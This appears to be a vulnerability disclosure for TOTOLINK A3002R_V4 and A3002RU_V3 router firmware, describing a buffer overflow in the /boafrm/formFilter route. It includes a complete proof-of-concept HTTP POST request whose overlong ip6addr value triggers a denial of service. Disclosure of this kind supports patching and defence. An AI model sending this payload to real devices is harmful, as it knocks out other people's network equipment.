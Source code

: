 # Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** [A3002R_V4](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/258.html)/[A3002RU_V3](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/221.html)

**Affected firmware version:** V3.0.0-B20230809.1615

**Firmware download address:** [download]([TOTOLINK](https://www.totolink.net/home/index/menu_listtpl/listtpl/prod/id/26.html?page=1))

# Overview

A serious buffer overflow vulnerability was found in TOTOLINK A3002RU V3 and A3002R_V4. The vulnerability can be triggered by the route /boafrm/formFilter. An attacker can implement a denial of service attack by sending HTTP POST requests.

# Vulnerability details

The length of the copy is not checked, which leads to overflow.

![image-20250503143341845](6/image-20250503143341845.png)

The length of the copy is not checked, which leads to overflow.

![image-20250503143954501](6/image-20250503143954501.png)

# POC

```
POST /boafrm/formFilter HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 792
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/macfilter.htm
Upgrade-Insecure-Requests: 1
Priority: u=4

sessionCheck=6d71b2fbdfb9cc395774379815a49a13&mac=&enabled=1&mac_addr=&mac_addr=&mac_addr=&mac_addr=&mac_addr=&mac_addr=&comment=&save_apply=%E5%BA%94%E7%94%A8&addFilterMacFlag=1&submit-url=%2Fmacfilter.htm&ip=1&ip6addr=aaaaa&deleteSelFilterIp=2&deleteAllFilterIp=3&applyFilterIps=&addFilterIps=5&deleteSelFilterIps=6&deleteAllFilterIps=7&addFilterPort=&ip6addr=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

![image-20250503145025693](6/image-20250503145025693.png)